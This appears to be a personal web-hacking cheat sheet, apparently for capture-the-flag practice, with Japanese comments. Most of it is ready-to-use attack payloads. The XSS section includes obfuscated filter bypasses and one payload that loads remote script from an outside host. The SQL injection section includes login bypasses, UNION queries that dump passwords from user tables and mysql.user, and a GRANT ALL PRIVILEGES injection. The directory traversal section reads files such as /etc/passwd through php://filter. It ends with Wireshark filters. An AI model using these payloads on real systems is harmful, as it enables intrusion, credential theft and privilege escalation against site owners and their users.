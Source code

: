 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

# null の数を変えてカラム数を特定
' and 1=0 UNION ALL SELECT null,null,null#
# テーブル一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_SCHEMA,TABLE_NAME ,TABLE_COMMENT FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE') ;#
# カラム一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_NAME,COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME IN('func') ORDER BY TABLE_NAME) ;#
' and 1=0 UNION ALL (SELECT 1, 1, GRANTEE FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES); #

' and 1=0 UNION ALL SELECT null,null,null FROM user;#
' and 1=0 UNION ALL SELECT null, current_user(), version();#
' and 1=0 UNION ALL GRANT ALL PRIVILEGES ON *.* TO username@'%'#
' and 1=0 UNION ALL SELECT null, null, password FROM mysql.user#
SCHEMA_PRIVILEGES
fuga' OORR '1
5.1.73
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
